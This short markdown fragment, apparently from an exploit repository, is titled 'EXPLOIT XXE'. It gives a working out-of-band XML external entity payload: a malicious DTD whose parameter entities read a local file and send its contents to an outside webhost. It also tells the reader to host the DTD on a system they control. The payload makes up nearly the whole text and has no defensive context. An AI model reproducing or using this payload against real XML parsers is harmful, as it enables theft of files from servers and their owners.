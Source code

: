 # EXPLOIT XXE
You must host the malicious DTD on a system that you control.
An example of a malicious DTD to exfiltrate the contents of the /hellothere.txt file is as follows:

+ <!ENTITY % file SYSTEM "file:///hellothere.txt">
+ <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://sanglv11.000webhostapp.com/?x=%file;'>">
+ %eval;
+ %exfiltrate;
